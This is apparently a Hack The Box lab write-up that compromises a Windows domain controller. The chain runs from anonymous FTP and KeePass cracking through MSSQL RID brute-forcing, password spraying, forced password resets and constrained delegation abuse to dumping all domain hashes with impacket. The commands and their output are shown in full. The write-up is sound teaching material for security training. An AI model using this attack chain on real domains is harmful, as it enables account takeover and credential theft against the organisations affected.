This box is rated hard difficulty on HTB. It involves us discovering a KeePass database file on an FTP server allowing anonymous logins. After cracking the password for that, we use MSSQL credentials to brute-force RIDs and spray passwords against the domain, granting us access to a user in the HelpDesk group. Enumerating ACLs discloses that we can change the password for a user in the IT department, who has SeEnableDelegationPrivilege. Finally, we perform a Constrained Delegation attack to dump hashes and escalate privileges to the domain administrator.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the standard AD ports.

```
$ sudo nmap -sCV 10.129.234.50 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-20 01:43 -0400
Nmap scan report for 10.129.234.50
Host is up (0.053s latency).
Not shown: 984 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  01:11AM                  434 CyberAudit.txt
| 10-20-24  05:14AM                 2622 Shared.kdbx
|_10-20-24  01:26AM                  580 TrainingAgenda.txt
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-20 05:44:05Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2026-04-20T05:44:18+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-20T05:43:56
|_Not valid after:  2056-04-20T05:43:56
| ms-sql-info: 
|   10.129.234.50:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.234.50:1433: 
|     Target_Name: REDELEGATE
|     NetBIOS_Domain_Name: REDELEGATE
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: redelegate.vl
|     DNS_Computer_Name: dc.redelegate.vl
|     DNS_Tree_Name: redelegate.vl
|_    Product_Version: 10.0.20348
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-04-20T05:44:18+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: REDELEGATE
|   NetBIOS_Domain_Name: REDELEGATE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: redelegate.vl
|   DNS_Computer_Name: dc.redelegate.vl
|   DNS_Tree_Name: redelegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-20T05:44:08+00:00
| ssl-cert: Subject: commonName=dc.redelegate.vl
| Not valid before: 2026-04-19T05:41:38
|_Not valid after:  2026-10-19T05:41:38
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-20T05:44:09
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.68 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. Default scripts reveal a few interesting ports open, and for that reason I'll initially focus on FTP, MSSQL, LDAP, and SMB to gather information on the domain. RDP is also leaking the FQDN of dc.redelegate.vl which I add to my /etc/hosts file to help with domain name resolution.


## Service Enumeration
Quickly checking the web server on port 80 shows the standard Microsoft IIS landing page; My scans don't find any other subdirectories, letting me safely rule out this attack vector for now.



It seems that Guest/Null authentication has also been disabled for SMB and RPC alike.

```
$ rpcclient dc.redelegate.vl -U ''

$ nxc smb dc.redelegate.vl -u 'Guest' -p '' --shares
```



### FTP Server Anon Logins
Right away, we can see that the FTP server allows for anonymous logins. Inside are a couple text files containing audit and training documents, but along with them is a .kdbx (KeePass database) file. Be sure to change the transfer type to binary as to preserve the file's contents.



After transferring them to our local machine, we can have a look inside. The Cyber Audit file discloses the organization's findings for their cybersecurity posture, noting that only two of the four recommended remediation steps have been completed.

```
$ cat CyberAudit.txt 

OCTOBER 2024 AUDIT FINDINGS

[!] CyberSecurity Audit findings:

1) Weak User Passwords
2) Excessive Privilege assigned to users
3) Unused Active Directory objects
4) Dangerous Active Directory ACLs

[*] Remediation steps:

1) Prompt users to change their passwords: DONE
2) Check privileges for all users and remove high privileges: DONE
3) Remove unused objects in the domain: IN PROGRESS
4) Recheck ACLs: IN PROGRESS
```

This is good to know as we can begin targeting weak domain ACLs once we acquire valid credentials. 

The second text file holds notes for a cybersecurity training agenda. This seems to show that not many people attended the session regarding weak passwords, indicating that password spraying with the format SeasonYear! could lead to an account compromise. Since this looks to have taken place in October 2024, we can surmise that a weak password will be akin to Fall2024! or Autumn2024!, depending on the organization's origin.

```
EMPLOYEE CYBER AWARENESS TRAINING AGENDA (OCTOBER 2024)

Friday 4th October  | 14.30 - 16.30 - 53 attendees
"Don't take the bait" - How to better understand phishing emails and what to do when you see one

Friday 11th October | 15.30 - 17.30 - 61 attendees
"Social Media and their dangers" - What happens to what you post online?

Friday 18th October | 11.30 - 13.30 - 7 attendees
"Weak Passwords" - Why "SeasonYear!" is not a good password 

Friday 25th October | 9.30 - 12.30 - 29 attendees
"What now?" - Consequences of a cyber attack and how to mitigate them
```

### KeePass Credentials
Lastly, there is a password protected KeePass database file. We can convert this into a crackable format using a tool like [keepass2john](https://github.com/ivanmrsulja/keepass2john) in order to recover the contents. Letting that run against rockyou.txt doesn't turn up any results within the first 10 minutes, so I decide to fabricate a custom wordlist following the training agenda's format for weak passwords.

We can satisfy this step with a quick bash script:

```
$ for season in Spring Summer Fall Autumn Winter; do                                 
  for year in $(seq 1990 2026); do
    for sym in '!' '@' '#' '$'; do
      echo "${season}${year}${sym}"
    done
  done  
done > passwords.txt
```

Now let's crack it, Hashcat detects two possible modes, of which I start with the former.

```
$ hashcat KeePassHash passwords.txt --user         
hashcat (v7.1.2) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-skylake-avx512-AMD Ryzen 7 7800X3D 8-Core Processor, 2930/5861 MB (1024 MB allocatable), 4MCU

The following 2 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
  13400 | KeePass (KDBX v2/v3)                                       | Password Manager
  29700 | KeePass (KDBX v2/v3) - keyfile only                        | Password Manager

Please specify the hash-mode with -m [hash-mode].

Started: Mon Apr 20 02:28:12 2026
Stopped: Mon Apr 20 02:28:12 2026

----------------------------------------------------------------------------------------------------------------------------------------------------

$ hashcat KeePassHash passwords.txt --user -m 13400
hashcat (v7.1.2) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-skylake-avx512-AMD Ryzen 7 7800X3D 8-Core Processor, 2930/5861 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 513 MB (4781 MB free)

Dictionary cache hit:
* Filename..: passwords.txt
* Passwords.: 1480
* Bytes.....: 17168
* Keyspace..: 1480

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$keepass$*2*600000*0*ce7395f413946b0cd279501e510cf8a988f39baca623dd86beaee651025662e6*e4f9d51a5df3e5f9ca1019cd57e10d60f85f48228da3f3b4cf1ffee940e20e01*18c45dbbf7d365a13d6714059937ebad*a59af7b75908d7bdf68b6fd929d315ae6bfe77262e53c209869a236da830495f*806f9dd2081c364e66a114ce3adeba60b282fc5e5ee6f324114d38de9b4502ca:[REDACTED]
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13400 (KeePass (KDBX v2/v3))
Hash.Target......: $keepass$*2*600000*0*ce7395f413946b0cd279501e510cf8...4502ca
Time.Started.....: Mon Apr 20 02:27:26 2026 (15 secs)
Time.Estimated...: Mon Apr 20 02:27:41 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:       33 H/s (12.25ms) @ Accel:61 Loops:1000 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 488/1480 (32.97%)
Rejected.........: 0/488 (0.00%)
Restore.Point....: 244/1480 (16.49%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:599000-600000
Candidate.Engine.: Device Generator
Candidates.#01...: Summer2014! -> Autumn2000$
Hardware.Mon.#01.: Util: 97%

Started: Mon Apr 20 02:27:25 2026
Stopped: Mon Apr 20 02:27:42 2026
```

That recovers the plaintext variant with ease. I'll use the [keepass2](https://keepass.info/download.html) tool to view the database, which can be installed with `sudo apt-get install keepass2` on Kali machines.



## Exploitation
This gives us a few user credentials, however the web server did not have any login panels, leaving us with only the SQL server. Attempting to authenticate to it failed at first, but appending the `--local-auth` flag succeeds.



After connecting to the server with Impacket's [MSSQLclient.py](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) script, we find that there are only the default Microsoft SQL Server databases in place. Luckily for us, the fact that we can authenticate at all to it opens up some doors. 

I start by creating a new wordlist of account names by brute-forcing RIDs and stripping the domain prefix with an awk command.

```
$ nxc mssql dc.redelegate.vl -u 'SQLGuest' -p '[REDACTED]' --local-auth --rid-brute > users.txt

$ awk -F'\\' '{print $2}' users.txt > usernames.txt

$ tail usernames.txt 
Michael.Pontiac
Mallory.Roberts
James.Dinkleberg
Helpdesk
IT
Finance
DnsAdmins
DnsUpdateProxy
Ryan.Cooper
sql_svc
```

### Password Spraying
This now gives us a list of accounts to spray known passwords against, as well as test for any that are AS-REP Roastable. Beginning with the password spray using Netexec over SMB, I'm sure to use the `--continue-on-success` flag to keep trying once a successful attempt is made to be thorough.

```
$ nxc smb dc.redelegate.vl -u ./usernames.txt -p ./passwords.txt --continue-on-success
```



In an ideal situation, I would use pre-existing credentials to check the domain's password policy, ensuring that we aren't going to lock ourselves out here. Either way, this eventually gives us a valid login for Marie.Curie and we can begin enumerating where trust is established.

### Mapping AD with BloodHound
Unfortunately, there aren't any non-standard SMB shares that we can pillage, so I fire up BloodHound to map AD. I opt to use BloodHound-Python to collect the data since we don't have shell access just yet.

```
$ bloodhound-python -c all -d redelegate.vl -u 'marie.curie' -p 'Fall2024!' -ns 10.129.234.50
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: redelegate.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.redelegate.vl
INFO: Testing resolved hostname connectivity dead:beef::3d50:ebbf:a28b:280c
INFO: Trying LDAP connection to dead:beef::3d50:ebbf:a28b:280c
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc.redelegate.vl
INFO: Testing resolved hostname connectivity dead:beef::3d50:ebbf:a28b:280c
INFO: Trying LDAP connection to dead:beef::3d50:ebbf:a28b:280c
INFO: Found 12 users
INFO: Found 56 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: dc.redelegate.vl
WARNING: SID S-1-5-21-3745110700-3336928118-3915974013-1109 lookup failed, return status: STATUS_NONE_MAPPED
INFO: Done in 00M 12S
```

Checking Marie.Curie's Outbound Object Control reveals that she is apart of the helpdesk group. This means that we have the _ForceChangePassword_ right over six other domain accounts.



### Exploit Chain
Following this pattern of outbound object control and enumerating domain ACLs reveals that we can effectively change the password for Helen.Frost's account, who has _GenericAll_ permissions over the FS01$ account.



This means that once we have assumed control of Helen's account, we can perform a Resource-Based Constraint Delegation attack in order to escalate our privileges.

If you're unfamiliar with this vector - Resource-Based Constrained Delegation (RBCD) is a Kerberos feature where a target resource (like a server) defines which principals are allowed to impersonate users to it, via the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. If an attacker can modify that attribute, they can add a controlled account and then use Kerberos (S4U2Self + S4U2Proxy) to impersonate any user-including admins-to that service. This effectively gives them code execution or access as that user on the target system.

Being able to write SPNs (Service Principal Names) can lead to domain compromise because it enables attacks like Kerberoasting and targeted delegation abuse. An attacker can register an SPN on an account they control or modify, request a service ticket for it, and extract a crackable hash of the account's password; if that account is highly privileged, cracking it can lead to full domain takeover. This portion is relevant as we have GenericAll over the FS01$ machine account and can therefore write its SPN.

## Privilege Escalation
Getting started, we first need to change Helen.Frost's password. I carry out this step using RPCClient because it's what I'm used to, however there are plenty of options out there.

```
$ rpcclient dc.redelegate.vl -U 'marie.curie'
Password for [WORKGROUP\marie.curie]:
rpcclient $> setuserinfo2 Helen.Frost 23 Password123!
rpcclient $> quit
```

Confirming that the password change succeeded also reveals that she is apart of the Remote Management group, allowing us to grab a shell on the box via WinRM.



### Finding SeEnableDelegationPrivilege
At this point we can grab the user flag and internal enumeration. Contrarily to what I thought before, it seems like FS01$ isn't a real machine we can access in order to perform RBCD against, plus we aren't allowed to add computer accounts or DNS records in order to carry out an unconstrained delegation attack either.



I do find that Helen has `SeEnableDelegationPrivilege` on the domain, meaning that we possibly execute a Constrained Delegation attack.



In case this is getting a bit confusing, allow me to explain the different types of delegation in Active Directory. 
- Unconstrained delegation: Allows a service to impersonate a user to any service once the user authenticates to it, by storing the user's TGT in memory. It's highly permissive and dangerous because compromise of the service effectively exposes all delegated user credentials.
- Constrained delegation: Restricts impersonation to specific services defined in the `msDS-AllowedToDelegateTo` attribute. This limits blast radius, but if the service is compromised, an attacker can still act as users to those predefined services.
- Resource-Based Constrained Delegation (RBCD): Shifts control to the target service, which specifies which accounts are allowed to delegate to it via `msDS-AllowedToActOnBehalfOfOtherIdentity`. This makes it easier to abuse in practice since control over the target object's ACLs (e.g., GenericWrite) can be enough to set up delegation abuse.

### Constrained Delegation
We will be exploiting Constrained Delegation by abusing our SeEnableDelegationPrivilege on the domain as well as GenericAll permissions over FS01$. First, I configure the machine account to act as the LDAP service on the Domain Controller within my WinRM session.

```
*Evil-WinRM* > Set-ADAccountControl -Identity "FS01$" -TrustedToAuthForDelegation $True
*Evil-WinRM* > Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"msDS-AllowedToDelegateTo"="ldap/dc.rede
legate.vl"}
```

And then change its password over RPC, similar to Helen's account earlier.

```
$ rpcclient dc.redelegate.vl -U 'Helen.Frost'
Password for [WORKGROUP\Helen.Frost]:
rpcclient $> setuserinfo2 'FS01$' 23 Password123!
rpcclient $> quit
```

Now, we can request a service ticket for the LDAP service using Impacket's [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py) script, while impersonating the DC.

```
$ impacket-getST 'redelegate.vl/FS01$:Password123!' -spn ldap/dc.redelegate.vl -impersonate dc
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating dc
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```

### Dumping Hashes
That will save a ticket, in which we can use to authenticate to the LDAP service on the Domain Controller. In my case, I use Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script to dump all domain hashes. Be sure to export the service ticket as the `KRB5CCNAME` variable beforehand or declare it in-line.

```
$ export KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache

$ impacket-secretsdump -k -no-pass dc.redelegate.vl
```



Finally, we can utilize the administrator's NTLM in a Pass-The-Hash attack over the service of our choosing to get a shell on the box. Grabbing the root flag under their Desktop folder will complete this challenge.

